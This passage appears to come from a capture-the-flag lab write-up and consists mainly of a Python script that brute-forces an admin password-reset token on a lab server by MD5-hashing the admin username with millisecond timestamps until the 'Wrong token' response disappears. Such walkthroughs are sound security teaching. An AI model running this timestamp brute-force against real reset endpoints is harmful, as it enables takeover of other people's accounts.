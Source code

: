 The edited `reset_token.py` is the following:
```python
from hashlib import md5
import requests
from sys import exit
import sys
from time import time

url = "http://64.227.34.91:31647/question1/"
user = "htbuser"
admin_user = "htbadmin"
UTC_value = 3600 #UTC + 1 in my case to be added in now variable (e.g. now = int((time()+UTC_value)*1000)). No need for this exercise because the algorithm for htbadmin token is based on UTC, not on my localtime.

# to have a wide window try to bruteforce starting from 120seconds ago
now        = int((time())*1000)
start_time = now - 3000 # Remember our conversion to milliseconds, so our start time starts from 1 sec = 1000 ms in the past
success_user_token_text = "Your token is"
fail_admin_token_text  = "Wrong token"

# 1- Ask for htbuser token (otherwise the htbadmin token is not created)
data = {
    "submit": user
}
    
# send the request
res = requests.post(url, data=data)
# response text check
if not success_user_token_text in res.text:
    print(res.text)
    print("[*] Error! Token creation failed!")
    exit()


# loop from start_time to now. + 1000 milliseconds (= + 1 second) is needed because of how range() works
for x in range(start_time, now + 3000):
    
    # get token md5

    md5_token = md5((admin_user+str(x)).encode()).hexdigest()
    data = {
        "submit": "check",
        "token": md5_token
    }

    print("checking {} {}".format(str(x), md5_token))

    # send the request
    res = requests.post(url, data=data)

    # response text check
    if not fail_admin_token_text in res.text:
        print(res.text)
        print("[*] Congratulations! raw reply printed before")
        print("Time is: "+str(x))
        exit()
```
Running this Python script, we can get the right response and the flag.
